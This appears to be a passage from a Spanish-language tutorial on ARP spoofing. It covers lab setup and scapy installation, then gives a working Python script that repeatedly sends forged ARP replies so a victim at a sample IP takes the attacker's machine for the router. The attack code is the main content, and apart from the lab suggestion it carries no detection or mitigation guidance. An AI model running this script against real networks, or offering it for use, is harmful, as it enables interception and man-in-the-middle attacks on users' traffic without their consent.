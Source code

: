#### 1. Entorno recomendado

- Sistema: Linux (idealmente Kali Linux o Ubuntu)
- Herramientas:

  - Python 3
  - `scapy`
  - Wireshark (para ver el tráfico)

- Red: una red local o red virtual (VirtualBox o VMware)

#### 2. Instalar herramientas necesarias

```bash
sudo apt update
sudo apt install python3 python3-pip wireshark net-tools
pip3 install scapy
```

---

### 📦 ¿Qué es Scapy?

`Scapy` es una librería de Python que permite:

- Crear paquetes de red personalizados (ARP, IP, TCP, etc.)
- Enviarlos
- Escucharlos y analizarlos

---

### 🔧 Código Python para ARP Spoofing paso a paso

Vamos a ver un ejemplo básico.

#### 🔁 Paso 1: Código para hacer ARP Spoofing

```python
from scapy.all import ARP, Ether, send
import time

def get_arp_response(ip, target_mac, spoof_ip):
    # Construye un paquete ARP falso
    arp_response = ARP(
        op=2,                  # 1=request, 2=reply
        pdst=ip,               # IP de la víctima
        hwdst=target_mac,      # MAC de la víctima
        psrc=spoof_ip          # IP suplantada (por ejemplo, la del router)
    )
    return arp_response

def arp_spoof(target_ip, target_mac, spoof_ip):
    print(f"[+] Suplantando {spoof_ip} con nuestra MAC para {target_ip}")
    packet = get_arp_response(target_ip, target_mac, spoof_ip)
    send(packet, verbose=False)

# Datos de ejemplo - deberías obtenerlos con un escaneo de red antes
victim_ip = "192.168.0.5"
victim_mac = "AA:BB:CC:DD:EE:FF"
router_ip = "192.168.0.1"

try:
    while True:
        arp_spoof(victim_ip, victim_mac, router_ip)
        time.sleep(2)
except KeyboardInterrupt:
    print("\n[!] Ataque interrumpido por el usuario")
```